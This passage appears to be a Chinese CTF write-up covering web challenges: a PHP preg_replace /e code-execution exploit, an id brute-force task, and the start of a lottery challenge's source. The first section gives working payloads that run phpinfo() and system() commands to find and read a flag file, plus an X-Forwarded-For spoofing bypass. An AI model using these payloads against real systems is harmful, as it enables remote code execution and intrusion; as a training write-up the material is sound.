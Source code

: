 preg_replace的三个参数都可控

然后可以用在pattern里/e修饰符来进行恶意代码执行

> 如果设置了这个被弃用的修饰符， [preg_replace()](https://www.php.net/manual/zh/function.preg-replace.php) 在进行了对替换字符串的 后向引用替换之后, 将替换后的字符串作为php 代码评估执行(eval 函数方式)，并使用执行结果 作为实际参与替换的字符串。单引号、双引号、反斜线(*\*)和 NULL 字符在 后向引用替换时会被用反斜线转义. 

利用方法形如：

```
payload=?pat=/test/e&rep=phpinfo();&sub=test
```

注意要设置X-Forwarded-For请求头为127.0.0.1

构造payload找flag

```
?pat=/test/e&rep=system("find+/+-name+*flag*");
```

```
system("cat+/var/www/html/s3chahahaDir/flag/flag.php");
```

## 0x04 ics-06

id 爆破题。。。。。

id=2333的时候就行

好像也挺符合题面的？

## 0x05 lottery

题目给的附件就是网站的源码

不过好像也可以直接利用网站的git漏洞拿。。。。。

是一个lottery网站，根据对的数字个数赢得奖金，最后拿flag

看一下源码中比对的逻辑

```php
// my boss told me to use cryptographically secure algorithm 
function random_num(){
	do {
		$byte = openssl_random_pseudo_bytes(10, $cstrong);
		$num = ord($byte);
	} while ($num >= 250);

	if(!$cstrong){
		response_error('server need be checked, tell admin');
	}
	
	$num /= 25;
	return strval(floor($num));
}

function random_win_nums(){
	$result = '';
	for($i=0; $i<7; $i++){
		$result .= random_num();
	}
	return $result;
}
function buy($req){
	require_registered();
	require_min_money(2);

```